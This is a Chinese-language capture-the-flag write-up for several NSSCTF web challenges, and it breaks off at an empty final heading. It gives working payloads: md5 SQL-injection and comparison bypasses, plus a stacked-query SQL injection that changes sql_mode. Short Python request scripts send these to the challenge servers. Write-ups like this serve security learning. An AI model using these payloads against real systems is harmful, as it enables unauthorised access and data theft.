 ## 6.[NCTF 2018]签到题

抓包用重放器。

## 7.[BJDCTF 2020]easy_md5

`md5`函数第二个参数默认false表示返回32位十六进制字符串结果，true标识返回16位二进制格式不可读。

当字符串“ffifdyop”经过md5加密后为“'or'6<乱码>”，尝试绕过：

```url
http://node4.anna.nssctf.cn:28478/leveldo4.php?password=ffifdyop
```

`window.location.replace`函数表示重定向到新页面。

第二关md5弱比较，尝试科学计数法：“QNKCDZO”和"240610708"。

```url
http://node4.anna.nssctf.cn:28478/levels91.php?a=QNKCDZO&b=240610708
```

第三关md5强比较，尝试数组绕过：

```url
param1%5B%5D=1&param2%5B%5D=2
```

exp：

```python
import requests
payload1={'param1[]':1,'param2[]':2}
response1=requests.post('http://node4.anna.nssctf.cn:28478/levell14.php',data=payload1)
print(response1.text[-45:])
```

## 8.[suctf 2019]EasySQL

这题挺抽象的，正确解法是根据一段一段“Array([?]=>?)”的格式猜出有运算符“||”，然后改sql_mode使其成为字符串拼接运算符。

实际上这个后台语句为：

```sql
select $post['query']||flag from Flag
```

exp：

```python
import requests
payload1={'query':'1;set sql_mode=PIPES_AS_CONCAT;select 1'}
response1=requests.post('http://node4.anna.nssctf.cn:28128/',data=payload1)
print(response1.text[-47:-2])
```

注意最后一个“1”不能换成字母，否则就和字符串“flag”拼接起来了，在这里是分别查询“1”和“flag”值的意思。

## 9.[LitCTF 2023]导弹迷踪
